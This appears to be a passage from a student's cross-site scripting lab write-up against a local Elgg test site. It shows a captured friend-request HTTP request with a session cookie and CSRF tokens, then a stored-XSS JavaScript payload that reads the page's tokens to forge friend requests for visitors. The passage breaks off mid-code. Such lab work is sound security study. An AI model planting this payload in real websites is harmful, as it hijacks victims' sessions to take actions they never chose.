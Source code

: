 ![alt text](https://github.com/Asad-Ali-Code/Cross-Site-Scripting-Attack/blob/main/script%2033.PNG)

# Task 4
Try to log in as ```alice``` and add ```samy``` as a friend, during the process, network tool captures the request:

HTTP header:
```
Request URL: http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ
GET /action/friends/add?friend=47&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/samy
X-Requested-With: XMLHttpRequest
Cookie: Elgg=5tqs9f0im6vp35cr2cva0lpvp4
Connection: keep-alive

```
So construct the payload that forges the user's friend request as:

```
<script type="text/javascript">
  window.onload = function () {
    var Ajax = null;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl =
      "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token; //FILL IN
    //Create and send Ajax request to add friend
    Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
```